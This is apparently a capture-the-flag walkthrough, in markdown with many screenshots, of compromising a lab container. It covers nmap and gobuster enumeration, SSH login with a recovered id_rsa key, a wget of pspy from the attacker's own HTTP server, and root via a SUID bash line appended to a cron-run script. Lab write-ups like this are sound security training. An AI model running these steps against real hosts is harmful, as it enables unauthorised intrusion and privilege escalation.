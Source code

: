 ![image](https://github.com/user-attachments/assets/2b6d0b83-239d-42e0-9127-422b519e8935)
```bash
ping -c 1 172.17.0.2
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
nmap -sCV -p22,80 172.17.0.2 -oN targeted
```
![image](https://github.com/user-attachments/assets/ccf81df7-cd9c-4126-99b9-7c5c15ea2ccd)
![image](https://github.com/user-attachments/assets/80ec27a1-ebd8-48f8-93af-51e9dfcfe6f0)
![image](https://github.com/user-attachments/assets/fb008851-35d5-4868-b804-2dfcdb84e388)

## **Fuzzing Web**
```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/53455075-ad2c-474d-8e18-c583e3e183e7)

## ** We found this, an old version of the Web**
![image](https://github.com/user-attachments/assets/906c8c16-8e5b-4ac8-9102-b0eaba2323d1)

## **Lets do some tests**

![image](https://github.com/user-attachments/assets/9d9cb269-0e70-42c8-88d2-73a886e5415b)
![image](https://github.com/user-attachments/assets/08b09e0d-4c59-4446-a308-199373c629ac)

![image](https://github.com/user-attachments/assets/674f0cc6-1349-41de-8b43-7978e618dda4)
![image](https://github.com/user-attachments/assets/202601c3-fea5-4bcf-8b8c-b05730e2affd)

![image](https://github.com/user-attachments/assets/2c949548-7e27-4a69-8f65-f0eb1b4ac18d)
![image](https://github.com/user-attachments/assets/f1e31eeb-1f91-43de-ac54-4b76b1780395)

##** We found a User=samara, so now we have a option to do a Brute force or try to get a id_rsa**

![image](https://github.com/user-attachments/assets/db3de542-514c-4a6f-90f2-da49edd3df2f)
![image](https://github.com/user-attachments/assets/8afc8d7a-2fb8-4369-9ffc-4aedf3b948d9)

![image](https://github.com/user-attachments/assets/94647df5-6e11-44e3-a579-404d44952b28)
![image](https://github.com/user-attachments/assets/973bd65c-1b19-41d8-a672-261efc86f4be)

## **So now lets put all the info in a new file**
```bash
nano id_rsa
chmod 600 id_rsa
```
![image](https://github.com/user-attachments/assets/2a5bc8cd-52ea-40cc-88a2-dca886f0593f)

## **now let's connect via SSH with id_rsa**
```bash
ssh -i id_rsa samara@172.17.0.2
```
![image](https://github.com/user-attachments/assets/63cf819e-4638-41c0-bc54-0256eec976ca)

## **TTY**
```bash
script /dev/null -c bash
"CTRL+Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
![image](https://github.com/user-attachments/assets/62c81923-838c-4856-ba5e-1b9f42738436)

## **elevating privileges**
```bash
find / -perm -4000 2>/dev/null
```
![image](https://github.com/user-attachments/assets/0ed0be1f-7954-4895-8ef0-e20358725ec1)

## **We review SUID permissions and we can see that we do not have anything that could be useful to us.**
## **So what we will do is upload pspy to the victim machine to see if we can get something useful.
We create a folder on our Kali machine and download the file to the victim machine https://github.com/DominicBreuker/pspy/releases.**
```bash
python3 -m http.server 80
```
![image](https://github.com/user-attachments/assets/1d4ffebd-96e3-4e96-b962-673172b23e05)

## **we upload the file to**
```bash
wget http://172.17.0.1/pspy64
```
![image](https://github.com/user-attachments/assets/a6ded6fa-8526-4c9a-b526-c828596388c8)
```bash
chmod +x pspy64
./pspy64
```
![image](https://github.com/user-attachments/assets/96800f80-4817-4a01-8f97-6301625e710f)

## **We observe that the echo.sh file is constantly running inside the path /usr/local/bin/echo.sh. If we do a cat of the file we see the following:**

![image](https://github.com/user-attachments/assets/787c0668-308b-4c97-94c0-8b44b8e58963)

## **we have to add this code at the end of the file to give it privileges**
```bash
chmod u+s /usr/bin/bash
```
![image](https://github.com/user-attachments/assets/1de73784-0665-4c0c-8bcf-4b56b1372430)

```bash
bash -p
```
![image](https://github.com/user-attachments/assets/0d743297-d50d-4338-9cf9-5ed6d6d7fa21)





